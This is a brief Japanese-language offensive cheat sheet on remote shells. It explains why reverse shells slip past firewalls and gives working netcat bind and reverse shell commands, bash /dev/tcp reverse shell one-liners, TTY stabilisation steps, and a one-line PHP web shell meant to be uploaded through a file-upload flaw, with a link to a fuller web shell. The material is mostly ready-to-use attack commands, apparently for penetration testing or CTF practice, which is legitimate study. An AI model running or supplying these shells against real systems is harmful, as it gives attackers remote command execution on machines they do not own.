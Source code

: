 # 遠隔からのシェル

* ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
* アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。

## バインドシェル・リバースシェル `netcat`を使用

* netcat

``` shell
    # 待ち受け
    nc -vlp 1027
    # 接続
    nc -v 192.168.XXX.XXX 1027 -e /bin/bash
    # /bin/bashのところはwindowsならcmd.exe
```

* bash
  
``` shell
    bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1
    #または
    bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'
```

* シェルの安定化

``` shell
    # python
    python3 -c 'import pty; pty.spawn("/bin/bash")'
```

``` shell
    # script
    script /dev/null -qc /bin/bash
```

``` shell
    # 共通
    ctrl + z
    stty raw -echo; fg
    SHELL=/bin/bash
    export TERM=screen
    stty rows 38 columns 116; reset;
```

## Webシェル

* 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
* アップしたphpファイルを利用してweb経由でコマンド実行

``` php
    # webshell.php
    <?php system($_GET["cmd"]); ?>
```

[リッチなwebshell](https://github.com/eb3095/php-shell/blob/master/php-shell.php)
